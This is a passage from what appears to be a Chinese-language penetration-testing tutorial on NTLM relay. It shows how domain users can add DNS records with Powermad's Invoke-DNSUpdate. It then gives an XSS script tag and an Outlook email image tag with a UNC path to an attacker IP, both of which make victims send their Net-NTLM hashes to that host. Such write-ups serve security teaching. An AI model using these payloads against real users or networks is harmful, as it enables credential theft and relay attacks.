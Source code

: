 认证用户都可以在DNS里面创建子对象，也就意味着如果我们是域内认证 用户的话，那我们就可以在域内添加域名。我们使用在kerberos篇里面提到过的Powermad里面的Invoke-DNSUpdate添加一条DNS记录

![image-20191121134813065](img/NTLM_RELAY_1_ANQUANKE/image-20191121134813065.png)

然后将我们的payload 换成

```html
<script  src="//xss\xss"></script>
```

由于此时的域名位于企业内部网，所以当用户触发xss的时候会以当前用户去认证，我们也就能拿到用户的net-ntlm  hash。

![image-20191121151332180](img/NTLM_RELAY_1_ANQUANKE/image-20191121151332180.png)

## 0x04 outlook

发送邮件是支持html的，而且outlook里面的图片加载路径又可以是UNC。于是我们构造payload

```html
<img src="\\172.16.100.1\outlook">
```

![image-20191122110302911](img/NTLM_RELAY_1_ANQUANKE/image-20191122110302911.png)

当收件人打开outlook查看邮件的时候

![image-20191122101323891](img/NTLM_RELAY_1_ANQUANKE/image-20191122101323891.png)